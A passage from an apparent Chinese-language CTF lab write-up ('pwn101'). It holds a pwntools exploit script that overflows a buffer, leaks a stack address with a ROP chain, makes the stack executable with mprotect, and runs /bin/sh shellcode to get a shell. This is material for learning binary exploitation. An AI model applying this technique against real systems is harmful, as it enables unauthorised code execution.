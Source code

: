 ```python
main_addr = p64(0x00401e61)


sh.recvuntil(b"libc")
sh.recvuntil(b"\n")

payload = b"A" * 0x28

payload += pop_rdi + stack_end_addr + put_addr + main_addr

sh.sendline(payload)

stack_addr = u64(sh.recvline().split(b'\n')[0].ljust(8,b"\x00"))

stack_page = p64(stack_addr & 0xFFFFFFFFFFFFF000)

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

payload = b"A" * 0x28
payload += ret_addr + pop_rdi + stack_page + pop_rsi + p64(0x1000) + pop_rdx + p64(0x7) + mprotect_addr + jmp_rsp + shellcode

sh.sendline(payload)

sh.interactive()
```



成功获取到shell权限

![image-20240103123434926](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20240103123434926.png)